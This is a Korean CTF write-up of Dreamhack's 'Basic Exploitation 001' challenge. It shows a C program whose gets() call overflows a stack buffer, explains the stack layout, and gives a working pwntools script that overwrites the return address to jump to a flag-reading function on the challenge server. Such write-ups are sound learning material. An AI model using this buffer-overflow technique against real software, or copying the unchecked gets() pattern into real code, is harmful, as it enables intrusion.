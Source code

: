 ```yaml
---
title: "[pwn]Basic Exploitation 001"
excerpt: "Dreamhack Basic Exploitation 001"
category: CTF
tags: [pwnable]
toc: true
toc_label: "Table of Contents"
toc_sticky: true
---
```

1. 환경 확인  
**file** 명령어로 i386, LE 환경인것을 확인한다.

2. code 확인  
~~~
void read_flag(){
    system("cat /flag");
}
int main(int argc, char \*argv[]){
    char buf[0x80];
    initialize();
    gets(buf); // gcc에서도 경고하는 **gets**
    return 0;
}
~~~
코드에서 알수 있듯이 버퍼의 크기는 0x80, **gets()**함수는 입력의 크기를 확인하지 않고 받는다. 따라서 Stack Buffer Overflow를 이용해서 exploit할수 있다. 심지어 친절하게 **read_flag()**함수를 만들어 두어서 shellcode를 사용하지 않아도 된다.  

3. payload 작성  
메모리를 확인하면 $esp에 0x80 크기의 버퍼를 두고 4byte의 SFP, 그뒤에 main 함수의 ret 주소가 있다.  
따라서 0x84 크기의 dummy와 **read_flag()**의 주소 0x080485B9를 **p32()**를 통해 LE로 넣는다.  

4. script 작성  
~~~
from pwn import *

p=remote('host1.dreamhack.games',22850)
payload=b'A'\*0x84+p32(0x080485B9)
p.sendline(payload)
p.interactive()
~~~
<img width="614" alt="script exec" src="https://user-images.githubusercontent.com/45323902/154212885-17d2fd26-779d-4c41-b2b6-5f87f8eb3a04.png">
